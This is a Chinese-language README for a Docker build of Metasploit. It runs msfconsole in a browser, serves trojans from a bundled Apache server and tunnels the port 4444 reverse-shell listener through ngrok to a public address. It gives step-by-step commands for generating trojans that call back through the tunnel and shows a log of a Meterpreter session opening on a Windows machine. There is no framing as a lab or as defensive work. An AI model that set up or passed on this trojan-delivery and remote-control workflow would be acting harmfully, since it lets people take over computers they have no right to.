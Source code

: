 # ChaoXi_Metasploit

潮汐平台的Metasploit Docker容器构建

自带apache方便生成木马下载

启动命令：

```
docker run -it --rm -p 7681:7681 -p 4444:4444 -p 80:80 metasploit tini -- ttyd -p 7681 msfconsole
```

7681为ttyd固定端口，4444端口设置为监听端口用于创建监听，80端口为apache端口

启动后打开浏览器访问本机IP地址，docker默认桥接网络，例：http://192.168.8.112:7681，即可通过浏览器进行交互。

注意：生成木马需要使用外部地址，也就是你本机的IP地址，进入msfconsle会话设置监听时设置的lhost为容器的IP地址，可以输入命令

```
cat /etc/hosts
```

启动apache只需要输入命令

```
service apache2 start
```

将木马生成到/var/www/html/下即可下载。

# 潮汐使用方法

启动后浏览器访问容器的IP地址加7681端口号，也可以是你自定义的端口号，即可通过浏览器进行交互。

在Metasploit会话中，输入命令

```
ls && ./ngrok config add-authtoken ngrok的token
```

即可配置ngrok，再输入命令

```
ls && ./ngrok --log=stdout tcp 4444 > ngrok.log &
[*] exec: ls && ./ngrok --log=stdout tcp 4444 > ngrok.log &
ngrok  ngrok-v3-stable-linux-amd64.tgz  ngrok.sh  ttyd.x86_64
```

即可映射一个4444端口的外网地址，用于生成木马

输入命令即可查看映射出去的地址
```
cat ngrok.log
[*] exec: cat ngrok.log

t=2022-06-21T12:26:14+0000 lvl=info msg="no configuration paths supplied"
t=2022-06-21T12:26:14+0000 lvl=info msg="using configuration at default config path" path=/root/.config/ngrok/ngrok.yml
t=2022-06-21T12:26:14+0000 lvl=info msg="open config file" path=/root/.config/ngrok/ngrok.yml err=nil
t=2022-06-21T12:26:14+0000 lvl=info msg="starting web service" obj=web addr=127.0.0.1:4040
t=2022-06-21T12:26:14+0000 lvl=info msg="tunnel session started" obj=tunnels.session
t=2022-06-21T12:26:14+0000 lvl=info msg="client session established" obj=csess id=bfcb9651c5ee
t=2022-06-21T12:26:15+0000 lvl=info msg="started tunnel" obj=tunnels name=command_line addr=//localhost:4444 url=tcp://0.tcp.jp.ngrok.io:10936
```

木马地址设置成外网tcp地址，端口为映射出去外网端口，metasploit设置监听主机为localhost或127.0.0.1即可，端口为4444即可。

```
exploit 

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Sending stage (175686 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:46862) at 2022-06-21 12:30:11 +0000

meterpreter > getuid
Server username: snowwolf-PC\snowwolf
```
